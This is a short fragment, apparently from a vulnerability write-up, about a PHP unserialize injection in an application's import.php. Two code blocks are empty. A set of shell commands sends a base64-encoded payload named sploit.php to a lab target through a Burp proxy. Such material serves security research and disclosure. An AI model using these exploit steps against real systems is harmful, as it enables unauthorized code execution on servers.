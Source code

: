 #### 4.1. Injection point

Can be any user supplied input that is passed to `unserialize`
```
```

#### 4.2. Injection point - `import.php`
```
```

#### 4.3. Proxy setup (Burp)
```
$ proxy='https:http://127.0.0.1:8080'
$ target='172.16.201.160:8443'
$ payload=`http --verify=no https://$target/sploit.php | base64`
$ http --verify=no --proxy=$proxy -f https://$target/kPOP/import.php data=$payload 2>/dev/null
```
